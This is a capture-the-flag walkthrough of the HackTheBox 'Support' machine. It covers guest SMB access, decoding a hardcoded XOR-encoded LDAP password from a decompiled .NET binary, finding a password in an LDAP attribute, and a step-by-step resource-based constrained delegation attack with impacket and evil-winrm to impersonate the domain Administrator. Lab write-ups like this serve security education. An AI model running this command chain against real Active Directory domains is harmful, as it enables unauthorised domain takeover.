


---
tags:
  - Windows
  - SMB
  - Guest access
  - .NET Decompiling
  - DACL Abuse
---

... is an easy HTB machine which exposes a custom binary in a `smb` share which is accessible as `Guest`. An inspection of the disassembly reveals a custom decryption routine which can be used to gain credentials. Those can then be used to enumerate another user via `LDAP`, which has the privilege of `GenericAll` over the domain controller.

### Reconnaissance
The tool `nmap` is used to do the initial reconnaissance of any target, as it very reliably sends packets to specific ports of the target to verify if they are open, closed, or filtered. The following command is used as a standard `nmap` scan:
```bash
sudo nmap -sCV $IP
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# sudo: optional, but makes the scan a bit faster and stealthier, as no TCP connect() is used.
# -sC (or --script=default): uses the default scripts of nmap. can quickly discover simple vulnerabilities, such as anonymous logins.
# -sV: further scans open ports to determine the actual service which is running on them, as an open port 80 does not directly imply a HTTP service.
```

the output of `nmap` tells us this:
```bash
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```
As this output is quite verbose, i will break it down below:

- Port `139` and `445`: Usually both indicate `SMB`. Port `139` relies on legacy `NetBIOS` (support for older machines), port `445` is a newer version using `TCP/IP`. `SMB` is highly interesting for exploitation, as it allows access to files / printers over the network.
- Port `389` and `636`: Are used for `LDAP` and `LDAPS`. Are used in windows active-directory scenarios to authenticate users / authorize them to take certain actions.
- Port `5985`: Port for `WinRM`. Comparable to `ssh`, usually exclusive to Windows. Interesting if credentials are found.

As the `nmap` scan indicates, the domain name `support.htb` is in use. That is why i edit my `/etc/hosts` file as follows for local `DNS` resolution:
```bash
echo "$IP support.htb" | sudo tee --append /etc/hosts
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# echo "...": writes the specified string into STDOUT (terminal)
# | : redirect (pipe) the STDOUT of the left command into the STDIN of the right command
# sudo tee --append /etc/hosts: write the received STDIN into a file without overwriting it. requires sudo, as that file is critical to the system  
```

As with any windows machine, i first try enumerating the `SMB` service using `netexec`. As `Null Auths` are allowed (known after scanning with `nxc smb support.htb`), i can enumerate the shares with these credentials:
```bash
nxc smb support.htb -u 'a' -p '' --shares
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -u: the username to use. can be anything, as it defaults to the user 'Guest', if the name is not found.
# -p: the password to use. empty here
# --shares: a flag which tells nxc to return a list of available shares.
```

The output of this command shows me the following shares:
```bash
Share           Permissions     Remark
-----           -----------     ------
ADMIN$                          Remote Admin
C$                              Default share
IPC$            READ            Remote IPC
NETLOGON                        Logon server share 
support-tools   READ            support staff tools
SYSVOL                          Logon server share
```
Besides the shares that usually show up in `SMB` services, i notice the `support-tools` share, for which `READ` access is granted to the guest account. I can find out what this share holds by connecting to that service using the following `smbclient` command:
```bash
smbclient -U 'a' -N //support.htb/support-tools
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -U: username to use. here, 'a' is used as it defaults to the guest account.
# -N: use no password. is optional, as you can leave the password empty if it asks for it.
```

That share holds the following files:

- `7-ZipPortable_21.07.paf.exe`: Utility to create zip files.
- `npp.8.4.1.portable.x64.zip`: (Notepad++) Utility to edit files.
- `putty.exe`: SSH- and telnet-client for windows.
- `SysinternalsSuite.zip`: A collection of many windows tools to analyze the system.
- `UserInfo.exe.zip`: Unknown binary. [Possibly malware](https://any.run/report/e070ce95a8b30e126d7ae1803ea15c5a8e7d27b13fc670b3aaa69d7026c2bc97/17d76e22-631e-453e-9bda-94692ef0bf8b)?
- `windirstat1_1_2_setup.exe`: Utility to analyze windows storage.
- `WiresharkPortable64_3.6.5.paf.exe`. Utility to analyze network traffic.

### Initial Exploitation
Most of the binaries in this share are typical tools which can be found online, except for the `UserInfo.exe.zip`, which is why i decided to download and unzip it.

I have looked through the readable content of the `EXE` and some `DLL`'s using the `strings` utility, but that did not reveal anything interesting. I also issued the command `file UserInfo.exe` to find out what type of executable this is. This was the output:
```bash
UserInfo.exe: PE32 executable for MS Windows 6.00 (console), Intel i386 Mono/.Net assembly, 3 sections
```
To disassemble binaries, i would typically use `ghidra`, as that works best for `C / C++` binaries or `Rust` binaries. As this binary is a `.NET assembly` a `.NET disassembler` will be needed to view the code. For this task, i have chosen [dotPeek](https://www.jetbrains.com/de-de/decompiler/) (Windows only, [IlSpy port](https://github.com/icsharpcode/AvaloniaILSpy) works on Linux). I upload the `UserInfo.exe.zip` and look through it's functions.

Within the `UserInfo > UserInfo.Services > LdapQuery` i find the call to the `LDAP` resource `LDAP://support.htb`. It looks like this: 
```csharp
public LdapQuery()
  {
    this.entry = new DirectoryEntry("LDAP://support.htb", "support\\ldap", Protected.getPassword());
    this.entry.AuthenticationType = AuthenticationTypes.Secure;
    this.ds = new DirectorySearcher(this.entry);
  }
```
This tells me that the username is `ldap` (given in format `NetBIOS-name\user-name`). The password is not readable, as it fetches it from the method `Protected.getPassword()`, which is why i investigated that too:
```csharp
internal class Protected
{
  private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";
  private static byte[] key = Encoding.ASCII.GetBytes("armando");

  public static string getPassword()
  {
    byte[] numArray = Convert.FromBase64String(Protected.enc_password);
    byte[] bytes = numArray;
    for (int index = 0; index < numArray.Length; ++index)
      bytes[index] = (byte) ((int) numArray[index] ^ (int) Protected.key[index % Protected.key.Length] ^ 223);
    return Encoding.Default.GetString(bytes);
  }
}
```

This `getPassword` method applies a custom decryption routine on a encoded password string using the key `armando`. It works roughly as follows:

1. Converts the `Base64` string into clear-text and stores it in a byte-array called `numArray`.
2. Stores the bytes of the string `armando` in the byte-array `key`.
3. For each byte in the `numArray`, apply the following:
	-  `numArray[n]` `XOR` `key[n]` `XOR` `223` (`key` repeats itself)
4. Returns the result.

In theory, if this code would be executed, the clear-text password would result from the computation. To test this theory, i use the online `.NET` compiler [dotnetfiddle](https://dotnetfiddle.net/). I simply copy the function above into the project, and append this method so that the string gets printed:
```csharp
public static void Main()
{
	Console.WriteLine(Protected.getPassword());
}
```

This results in the credentials `ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`!

To validate if these credentials are correct, the following `netexec` command is used:
```bash
nxc ldap support.htb -u 'support.htb\ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```
This gave me the okay, meaning the credentials are valid.

Now with a valid domain account, i can issue a `bloodhound` scan. I must use `netexec's ingestor`, as i do not have `WinRM` access yet to use `SharpHound`. The syntax looks like this:
```bash
nxc ldap support.htb -u 'support.htb\ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' --bloodhound --collection All --dns-server $IP
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -u: the username to use. "ldap" here, but append "support.htb\", as LDAP is in place!
# -p: the password to use. 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' here
# --bloodhound: perform multiple `LDAP` scans to save in a file which can be investigated with bloodhound
# --collection All: use all collection methods
# --dns-server: specify the server which resolves DNS
```

This returns a `ZIP` file which i can upload to the `bloodhound GUI`. 

I investigated the account `ldap`, as i have access to it, but it does not have any `Outbound Object Control's`. With my current goal being the initial access to the machine, i searched for the `REMOTE MANAGEMENT USERS` group in `bloodhound` to find out which users can access the machine. This group has only one singular member, `support`.

The `Object Information` tab in `bloodhound` did not reveal anything interesting. That tab may not reveal all directory information for a given user, which is why i decided to issue a custom `LDAP-Query` where all info about the user `support` is dumped. The `LDAP-Query` looks like this:
```bash
(&(objectCategory=person)(objectClass=user)(samaccountname=support))
```
I can issue it to the server using the `--query` parameter of `netexec's ldap` mode:
```bash
nxc ldap support.htb -u 'support.htb\ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' --query '(&(objectCategory=person)(objectClass=user)(samaccountname=support))' ''
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -u: the username to use. "ldap" here, but append "support.htb\", as LDAP is in place!
# -p: the password to use. 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' here
# --query: custom LDAP query
```

One key-value pair in this information stands out. It is the `info` key with the value `Ironside47pleasure40Watchful`. As this looks like a password, i tried using it for the `WinRM` login, as the user `support` should be able to access it:
```bash
evil-winrm -i support.htb -u "support.htb\support" -p "Ironside47pleasure40Watchful"
```
And this worked!

### Privilege Escalation
As i had `bloodhound` open from the previous scan, i noticed an interesting `Outbound Object Control` of the user `support`:


Due to the membership to the group `SHARED SUPPORT ACCOUNTS`, the user `support` has `GenericAll` privileges over the `Domain Controller Computer`. This opens up the two attack scenarios:

- `Resource-Based Constrained Delegation`: Create a new user, and configure it in a way so that it can impersonate arbitrary users.
- `Shadow Credentials Attack`: Edits the `msDS-KeyCredentialLink` attribute, so that a attacker-controlled cryptographic key can be used to authenticate as that service using `Windows Hello`-like features.

The problem with the `Shadow Credentials Attack` is that the user `support` has `GenericAll` permissions over the computer, so i can edit the `msDS-KeyCredentialLink` attribute for the `DC$` account, and not for the `Administrator` account. That account is no domain user, so i will not be able to receive a `NT-Hash`. So the `Resource-Based Constrained Delegation` attack is the way to go.

Before doing so, i edited my `/etc/hosts` file due to the name `dc.support.htb` also being present (seen in `bloodhound` scan), and i also needed to synchronize the time with the target so that `Kerberos` interactions work:
```bash
sudo sed -i "s/$IP support.htb/$IP support.htb dc.support.htb/" /etc/hosts
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# sudo: required, as we are editing /etc/hosts
# -i: edit the file in-place and overwrite it
# "s/old_word/new_word/": replaces each occurance of old_word with new_word
# /etc/hosts: file we want to edit
```

... and:

```bash
sudo timedatectl set-ntp off
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# prevents the OS from automatically correcting the time
```

```bash
sudo rdate -n $IP
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# synchronizes time with the target
```

Now to the actual attack:

#### 1. Adding a Computer
To add a new computer, the `MAQ` (`Machine Account Quota`) must be checked first. Usually it defaults to 10, but it is always nicer to check. The following `netexec` command checks the `MAQ` for the user `support`:
```bash
nxc ldap support.htb -u 'support.htb\support' -p 'Ironside47pleasure40Watchful' -M maq
```
And indeed, it is 10.

The tool `addcomputer.py` from the `impacket`-suite can be used to add a new computer using the specified account as follows:
```bash
impacket-addcomputer -computer-name 'evilComputer$' -computer-pass 'Password123' 'support.htb/support:Ironside47pleasure40Watchful'
```

#### 2. Modifying its property for impersonation
This property which allows computers to impersonate other users is the `msDS-AllowedToActOnBehalfOfOtherIdentity` (self-explanatory), and it can be edited using the tool `rbcd.py` (also `impacket`). This tool needs the two parameters `-delegate-from` and `-delegate-to`. They can be thought of as : "`<FROM>` can now impersonate users on `<TO>`".

The goal of this modification is that the newly created machine account `evilComputer$` is allowed to impersonate users on the `DC` (with its name being `DC$`).The syntax looks like this:
```bash
impacket-rbcd -delegate-from 'evilComputer$' -delegate-to 'DC$' -action 'write' 'support.htb/support:Ironside47pleasure40Watchful'
```

#### 3. Impersonating the Administrator
Using this impersonation privilege of `evilComputer$`, it is now possible to request a `Kerberos` service-ticket (`ST`) on behalf of the `Administrator`. The `impacket` suite has yet another tool do so, which is `getST.py`. It can be used like this:
```bash
impacket-getST -spn 'HTTP/dc.support.htb' -impersonate 'Administrator' 'support.htb/evilComputer$:Password123'
```
A `HTTP` ticket can be used for `WinRM`, as that uses a `HTTP-API`. It would also be possible to request a `CIFS` ticket (`psexec`, or `smbclient`), or a `LDAP` ticket. 

#### 4. Using his service-ticket
The generated ticket from the previous step can be used (via `Pass-The-Ticket`) for many different things such as `secretsdump`, but i will opt for a simple `WinRM` session:
```bash
evil-winrm -i dc.support.htb -K ./Administrator.ccache -r support.htb
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -i: interface to authenticate to. must be domain controllers domain name
# -K: specify kerberos ticket to use
# -r: specify the kerberos realm to use
```

### Summary

Below is a visualized summary of the exploitation steps used in this machine to gain RCE.



The privilege escalation to the user `Administrator` worked as follows:

